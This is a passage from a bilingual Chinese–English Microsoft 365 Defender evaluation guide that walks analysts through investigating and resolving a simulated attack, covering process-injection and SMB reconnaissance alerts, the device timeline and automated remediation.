   <span data-ttu-id="593cd-218">在 [ **事件** ] 頁面中，您可以看到與該事件相關的所有警示和資訊。</span><span class="sxs-lookup"><span data-stu-id="593cd-218">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="593cd-219">此資訊包含警示中所涉及的實體和資產、 (警示的偵測來源，例如 Microsoft Defender for Identity 或 Microsoft Defender for Endpoint) ，以及它們的連結在一起的原因。</span><span class="sxs-lookup"><span data-stu-id="593cd-219">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (such as Microsoft Defender for Identity or Microsoft Defender for Endpoint), and the reason they were linked together.</span></span> <span data-ttu-id="593cd-220">檢查事件警示清單會顯示攻擊的進展。</span><span class="sxs-lookup"><span data-stu-id="593cd-220">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="593cd-221">您可以從這個視圖，查看並調查個別提醒。</span><span class="sxs-lookup"><span data-stu-id="593cd-221">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="593cd-222">您也可以按一下右側功能表中的 [ **管理事件** ]，以標記事件、將其指派給您並新增批註。</span><span class="sxs-lookup"><span data-stu-id="593cd-222">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

#### <a name="review-generated-alerts"></a><span data-ttu-id="593cd-223">審閱產生的提醒</span><span class="sxs-lookup"><span data-stu-id="593cd-223">Review generated alerts</span></span>

<span data-ttu-id="593cd-224">讓我們看一下模擬攻擊期間產生的一些警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-224">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="593cd-225">我們只會逐步完成模擬攻擊期間產生的一些警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-225">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="593cd-226">根據測試裝置上所執行 Windows 和 Microsoft 365 Defender 產品的版本，您可能會看到更多以稍有不同順序顯示的警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-226">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>


##### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint"></a><span data-ttu-id="593cd-228">警示：觀察到的可疑程式注入 (來源： Microsoft Defender for Endpoint) </span><span class="sxs-lookup"><span data-stu-id="593cd-228">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint)</span></span>

<span data-ttu-id="593cd-229">高級攻擊者使用複雜且 stealthy 的方法，保存在記憶體中，並從偵測工具隱藏。</span><span class="sxs-lookup"><span data-stu-id="593cd-229">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="593cd-230">其中一項常見的技術是在信任的系統進程中運作，而不是惡意的可執行檔，使偵測工具和安全性作業難以發現惡意的程式碼。</span><span class="sxs-lookup"><span data-stu-id="593cd-230">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="593cd-231">為了讓 SOC 分析員能夠捕捉這些高級攻擊，Microsoft Defender for Endpoint 中的深度記憶體感應器提供我們的雲端服務，具有對各種跨進程程式碼注入技術的空前深入瞭解。</span><span class="sxs-lookup"><span data-stu-id="593cd-231">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="593cd-232">下圖顯示如何在嘗試插入程式碼來 <i>notepad.exe</i>時，如何偵測端點和警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-232">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


##### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint"></a><span data-ttu-id="593cd-234">警示：以無命令列引數執行過程所觀察到的意外行為 (來源： Microsoft Defender for Endpoint) </span><span class="sxs-lookup"><span data-stu-id="593cd-234">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint)</span></span>

<span data-ttu-id="593cd-235">Microsoft Defender for Endpoint 偵測通常是以最常見的攻擊技術屬性為目標。</span><span class="sxs-lookup"><span data-stu-id="593cd-235">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="593cd-236">此方法可確保持續性並引發此列，以供攻擊者切換至更新的戰術。</span><span class="sxs-lookup"><span data-stu-id="593cd-236">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="593cd-237">我們採用大規模的學習演算法，在組織和全球範圍內建立一般程式的正常行為，並在這些程式顯示反常行為時加以監視。</span><span class="sxs-lookup"><span data-stu-id="593cd-237">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="593cd-238">這些反常行為通常表示已引進無關的程式碼，並在其他受信任的程式中執行。</span><span class="sxs-lookup"><span data-stu-id="593cd-238">These anomalous behaviors often indicate that extraneous code was introduced and is running in an otherwise trusted process.</span></span>

<span data-ttu-id="593cd-239">在此案例中，處理 <i>notepad.exe</i> 會顯示反常的行為，包括與外部位置的通訊。</span><span class="sxs-lookup"><span data-stu-id="593cd-239">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="593cd-240">這項結果獨立于用於引入及執行惡意程式碼的特定方法。</span><span class="sxs-lookup"><span data-stu-id="593cd-240">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="593cd-241">因為此警示是以需要其他後端處理的機器學習模型為基礎，所以在入口網站中看到此警示之前可能需要一些時間。</span><span class="sxs-lookup"><span data-stu-id="593cd-241">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="593cd-242">請注意，警示詳細資料包含外部 IP 位址（即您可以做為資料透視以展開調查的指標）。</span><span class="sxs-lookup"><span data-stu-id="593cd-242">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="593cd-243">選取 [警示處理常式] 樹狀目錄中的 IP 位址，以查看 [IP 位址詳細資料] 頁面。</span><span class="sxs-lookup"><span data-stu-id="593cd-243">Select the IP address in the alert process tree to view the IP address details page.</span></span>


<span data-ttu-id="593cd-245">下圖顯示 [選取的 IP 位址詳細資料] 頁面 (按一下警示處理樹狀目錄樹) 中的 [IP 位址]。</span><span class="sxs-lookup"><span data-stu-id="593cd-245">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>


##### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="593cd-247">警示：使用者和 IP 位址偵測 (SMB)  (來源： Microsoft Defender 身分識別) </span><span class="sxs-lookup"><span data-stu-id="593cd-247">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="593cd-248">列舉使用伺服器訊息區 (SMB) 通訊協定，可讓攻擊者取得最近的使用者登入資訊，以協助他們透過網路移動，以存取特定的機密帳戶。</span><span class="sxs-lookup"><span data-stu-id="593cd-248">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="593cd-249">在此偵測中，當 SMB 會話列舉對網域控制站執行時，就會觸發警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-249">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>


#### <a name="review-the-device-timeline-with-microsoft-defender-for-endpoint"></a><span data-ttu-id="593cd-251">使用 Microsoft Defender for Endpoint 審閱裝置時程表</span><span class="sxs-lookup"><span data-stu-id="593cd-251">Review the device timeline with Microsoft Defender for Endpoint</span></span>

<span data-ttu-id="593cd-252">在探索此事件中的各種警示後，請移回先前所調查的 [事件] 頁面。</span><span class="sxs-lookup"><span data-stu-id="593cd-252">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="593cd-253">在 [事件] 頁面中，選取 [ **裝置** ] 索引標籤，以複查此事件中與 microsoft Defender for Endpoint 和 microsoft Defender 身分識別報告相關的裝置。</span><span class="sxs-lookup"><span data-stu-id="593cd-253">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="593cd-254">選取實施攻擊的裝置名稱，以開啟該特定裝置的實體頁面。</span><span class="sxs-lookup"><span data-stu-id="593cd-254">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="593cd-255">在該頁面中，您可以看到觸發和相關事件的警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-255">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="593cd-256">選取 [ **時程表** ] 索引標籤以開啟裝置時程表，並以時間順序查看裝置上觀測到的所有事件和行為，並與所引發的警示交錯。</span><span class="sxs-lookup"><span data-stu-id="593cd-256">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="593cd-258">展開一些較為有趣的行為，可提供有用的詳細資料，例如處理樹。</span><span class="sxs-lookup"><span data-stu-id="593cd-258">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="593cd-259">例如，向下滾動，直到發現出現警示事件 **可疑程式注入**。</span><span class="sxs-lookup"><span data-stu-id="593cd-259">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="593cd-260">選取 **插入的powershell.exe** ，以 notepad.exe 它底下的處理程式事件，在側邊窗格的 [ **事件實體** ] 圖表下，顯示此行為的完整處理樹狀結構。</span><span class="sxs-lookup"><span data-stu-id="593cd-260">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="593cd-261">如有必要，請使用搜尋列進行篩選。</span><span class="sxs-lookup"><span data-stu-id="593cd-261">Use the search bar for filtering if necessary.</span></span>


#### <a name="review-the-user-information-with-microsoft-cloud-app-security"></a><span data-ttu-id="593cd-263">使用 Microsoft Cloud App Security 審閱使用者資訊</span><span class="sxs-lookup"><span data-stu-id="593cd-263">Review the user information with Microsoft Cloud App Security</span></span>

<span data-ttu-id="593cd-264">在 [事件] 頁面上，選取 [ **使用者** ] 索引標籤，以顯示攻擊相關的使用者清單。</span><span class="sxs-lookup"><span data-stu-id="593cd-264">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="593cd-265">該表包含每個使用者的詳細資訊，包括每個使用者的 **調查優先順序** 分數。</span><span class="sxs-lookup"><span data-stu-id="593cd-265">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="593cd-266">選取 [使用者名稱]，以開啟可以進行進一步調查的使用者設定檔頁面。</span><span class="sxs-lookup"><span data-stu-id="593cd-266">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="593cd-267">[閱讀有關調查危險使用者的詳細資訊](/cloud-app-security/tutorial-ueba#identify)。</span><span class="sxs-lookup"><span data-stu-id="593cd-267">[Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).</span></span>


#### <a name="automated-investigation-and-remediation"></a><span data-ttu-id="593cd-269">自動化調查與補救措施</span><span class="sxs-lookup"><span data-stu-id="593cd-269">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="593cd-270">在進行這項模擬之前，請觀看下列影片，瞭解自動自我修復功能的相關資訊，以及如何在入口網站中找到它，以及如何協助您進行安全性作業：</span><span class="sxs-lookup"><span data-stu-id="593cd-270">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="593cd-271">在 Microsoft 365 Defender 入口網站中，向後流覽至該事件。</span><span class="sxs-lookup"><span data-stu-id="593cd-271">Navigate back to the incident in the Microsoft 365 Defender portal.</span></span> <span data-ttu-id="593cd-272">[**事件**] 頁面中的 [**調查**] 索引標籤會顯示 microsoft Defender 身分識別和 microsoft defender for Endpoint 所觸發的自動調查。</span><span class="sxs-lookup"><span data-stu-id="593cd-272">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="593cd-273">下列螢幕擷取畫面只會顯示由 Defender for Endpoint 所觸發的自動調查。</span><span class="sxs-lookup"><span data-stu-id="593cd-273">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="593cd-274">依預設，Defender for Endpoint 會自動 remediates 在佇列中找到的專案，這需要進行修復。</span><span class="sxs-lookup"><span data-stu-id="593cd-274">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>



<span data-ttu-id="593cd-276">選取觸發調查的警示，以開啟 [ **調查詳細資料** ] 頁面。</span><span class="sxs-lookup"><span data-stu-id="593cd-276">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="593cd-277">您將會看到下列詳細資料：</span><span class="sxs-lookup"><span data-stu-id="593cd-277">You'll see the following details:</span></span>

- <span data-ttu-id="593cd-278">觸發自動調查的警示 (s) 。</span><span class="sxs-lookup"><span data-stu-id="593cd-278">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="593cd-279">受影響的使用者和裝置。</span><span class="sxs-lookup"><span data-stu-id="593cd-279">Impacted users and devices.</span></span> <span data-ttu-id="593cd-280">如果在其他裝置上找到指示器，也會列出這些額外裝置。</span><span class="sxs-lookup"><span data-stu-id="593cd-280">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="593cd-281">證據清單。</span><span class="sxs-lookup"><span data-stu-id="593cd-281">List of evidence.</span></span> <span data-ttu-id="593cd-282">找到並分析的實體，例如檔案、進程、服務、驅動程式和網路位址。</span><span class="sxs-lookup"><span data-stu-id="593cd-282">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="593cd-283">這些實體會進行分析，以取得警示的可能關係，並評為良性或惡意。</span><span class="sxs-lookup"><span data-stu-id="593cd-283">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="593cd-284">發現威脅。</span><span class="sxs-lookup"><span data-stu-id="593cd-284">Threats found.</span></span> <span data-ttu-id="593cd-285">調查期間找到的已知威脅。</span><span class="sxs-lookup"><span data-stu-id="593cd-285">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="593cd-286">根據時間的不同，自動調查可能仍在執行中。</span><span class="sxs-lookup"><span data-stu-id="593cd-286">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="593cd-287">在您收集及分析證據並檢查結果之前，請等候幾分鐘完成處理常式。</span><span class="sxs-lookup"><span data-stu-id="593cd-287">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="593cd-288">重新整理「 **調查詳細資料** 」頁面以取得最新的結果。</span><span class="sxs-lookup"><span data-stu-id="593cd-288">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="593cd-290">在自動調查期間，Microsoft Defender for Endpoint 會識別出 notepad.exe 的處理常式，並將其注入為需要修正的其中一個專案。</span><span class="sxs-lookup"><span data-stu-id="593cd-290">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="593cd-291">Defender for Endpoint 會自動停止可疑的程式注入做為自動修復的一部分。</span><span class="sxs-lookup"><span data-stu-id="593cd-291">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="593cd-292">您可以在測試裝置上看到 [已執行的程式] 清單中 <i>notepad.exe</i> 會消失。</span><span class="sxs-lookup"><span data-stu-id="593cd-292">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

#### <a name="resolve-the-incident"></a><span data-ttu-id="593cd-293">解決事件</span><span class="sxs-lookup"><span data-stu-id="593cd-293">Resolve the incident</span></span>

<span data-ttu-id="593cd-294">調查完成並確認待修正後，即可解決事件。</span><span class="sxs-lookup"><span data-stu-id="593cd-294">After the investigation is complete and confirmed to be remediated, you resolve the incident.</span></span>

<span data-ttu-id="593cd-295">在 [ **事件** ] 頁面中，選取 [ **管理事件**]。</span><span class="sxs-lookup"><span data-stu-id="593cd-295">From the **Incident** page, select **Manage incident**.</span></span> <span data-ttu-id="593cd-296">設定狀態以 **解決事件**，並針對確定的分類及 **安全性測試** 選取 **True 警示**。</span><span class="sxs-lookup"><span data-stu-id="593cd-296">Set the status to **Resolve incident** and select **True alert** for the classification and **Security testing** for the determination.</span></span>


<span data-ttu-id="593cd-298">當事件解決時，它會在 Microsoft 365 Defender 入口網站和相關的入口網站中解析所有相關聯的警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-298">When the incident is resolved, it resolves all of the associated alerts in Microsoft 365 Defender portal and in the related portals.</span></span>

<span data-ttu-id="593cd-299">這會針對事件分析、自動調查和事件解決等問題，進行攻擊模擬。</span><span class="sxs-lookup"><span data-stu-id="593cd-299">This wraps up the attack simulation for incident analysis, automated investigation, and incident resolution.</span></span>

## <a name="next-step"></a><span data-ttu-id="593cd-300">後續步驟</span><span class="sxs-lookup"><span data-stu-id="593cd-300">Next step</span></span>

<span data-ttu-id="593cd-301">[](eval-defender-investigate-respond-additional.md)</span><span class="sxs-lookup"><span data-stu-id="593cd-301">[](eval-defender-investigate-respond-additional.md)</span></span>

<span data-ttu-id="593cd-302">步驟2之2：[嘗試 Microsoft 365 Defender 事件回應功能](eval-defender-investigate-respond-additional.md)</span><span class="sxs-lookup"><span data-stu-id="593cd-302">Step 2 of 2: [Try Microsoft 365 Defender incident response capabilities](eval-defender-investigate-respond-additional.md)</span></span>

### <a name="navigation-you-may-need"></a><span data-ttu-id="593cd-303">您可能需要的導覽</span><span class="sxs-lookup"><span data-stu-id="593cd-303">Navigation you may need</span></span>

[<span data-ttu-id="593cd-304">建立 Microsoft 365 Defender 評估環境</span><span class="sxs-lookup"><span data-stu-id="593cd-304">Create the Microsoft 365 Defender Evaluation Environment</span></span>](eval-create-eval-environment.md)
